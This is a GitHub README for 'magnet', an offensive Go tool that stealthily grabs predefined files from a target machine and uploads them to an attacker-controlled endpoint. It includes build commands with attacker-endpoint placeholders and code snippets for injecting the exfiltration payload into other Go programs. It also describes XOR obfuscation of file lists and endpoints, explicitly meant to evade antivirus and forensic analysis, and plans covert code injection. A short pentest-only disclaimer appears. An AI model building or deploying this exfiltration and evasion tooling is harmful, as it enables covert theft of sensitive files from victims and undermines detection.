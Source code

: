 <div align=center>
  <h1>magnet</h1>
  <pre>🧲⚡
  Grab interesting files from target</strong><br>

  <b><i>Cross-platform</i></b>
  <b><i>Stealth</i></b>
  <b><i>Portable</i></b>  
  </pre>
</div>

The library is built to fetch predefined files of interest from a remote device. It assumes that an HTTP endpoint is listening when the program is launched.

**Program execution on target will stealthy provide you the files you ask for.**

You have 2 possibilities:
* [Hide exfiltration in your program](#-inject-magnet-in-your-go-program)
* [Use the standalone `magnet` executable](#-standalone)

<sup><i>For educational purpose only or during pentest assessment with prior permission</i></sup>

## Usage

All the work is made **At compilation time**, you need to specify:
* The ***remote endpoint***, where juicy files are uploaded
* The ***Juicy files***, list of files you want to grab
* The ***target os***, to fit the target (between: `windows`, `darwin`, `linux`)
* The ***method*** uses for exfiltration (`http`, `tcp`)
```shell
export KEY=[YOUR_KEY]
export FILES=[FILENAME]
export ENDPOINT=[ATTACKER_ENDPOINT]
export TARGET_OS=[TARGET_OS]
export METHOD=[EXFILTRATION_METHOD]
```

### 🥷 Inject `magnet` in your Go program

1. Add `magnet` import and declare variables outside your `main()` function:
```golang
import "github.com/ariary/magnet/pkg/magnet"

var FileList,Key,Endpoint,Method string
```

2. Add magnet payload in the `main()`:
```golang
	sender := magnet.InitMagnetSender(Method)
	magnet.Magnet(sender, FileList, Endpoint, Key, debug)
```

3. Finally, modify the build command by adding `-ldflags "-X 'main.FileList=$FILES' -X 'main.Key=$KEY' -X 'main.Endpoint=$ENDPOINT' -X 'main.Method=$METHOD'"` and `CGO_ENABLED=0`

see [declare `magnet`environment variables](#declare-magnet-envar)

### ⚡ Standalone



To build `magnet` binary in one step:
```shell
# ensure lobfuscator is in your PATH
./build.sh $TARGET_OS $FILES $ENDPOINT $KEY $METHOD
```

See [`lobfuscator`](#build-lobfuscator) and [full example](https://github.com/ariary/magnet/blob/main/examples/EXAMPLES.md)


### Obfuscation/Encryption

To avoid detection systems, as we are seeking for sensitive files, **the different files we want to grab must not be in clear text within the binary** . Hence it used basic encryption with the key to decrypt embedded in binary. *(The aim is only to avoid AV and Detection system not to have strong encryption scheme)*

The same thing is made for the remote endpoints, to make the forensic analysis harder.

`lobfuscator` is the simple tool to perform the XOR encryption/decryption.

An exemple to build the obfuscated list:
```shell
cat [FILE] | lobfuscator $KEY > obfuscated.txt
# decrypt: cat obfuscated.txt | lobfuscator -d $KEY
```

#### Build `lobfuscator`
```shell
make build.lobfuscator
```

#### Declare `magnet` envar

Define `FILES` and `ENDPOINT` envar:
```shell
export FILES=$(cat [FILE] | lobfuscator $KEY)
export ENDPOINT=$(echo "[ENDPOINT]" | lobfuscator $KEY)
```

## Notes

* For the remote endpoint , I suggest you to use the `/push` endpoint of a [`gitar`](https://github.com/ariary/gitar) listener
* The software is built to be stealthy hence:
  * error handling is not verbose (hidden flag to get more verbosity `-thisisdebug`)
  * I suggest to overwrite usage string in `magnet.go` to fit your attack scenario (for standalone use)
* To enhance the binary obfuscation use [`garble`](https://github.com/burrowers/garble) to compile `magnet` instead of `go`(adapt `build.sh` consequently)

## To do

* Handle directories
* Use other protocols to send files (ICMP, DNS, SMTP, etc...)
* `magnetgentool` is on the making, it will be used with `//go:generate` comment to stealthy inject magnet code.
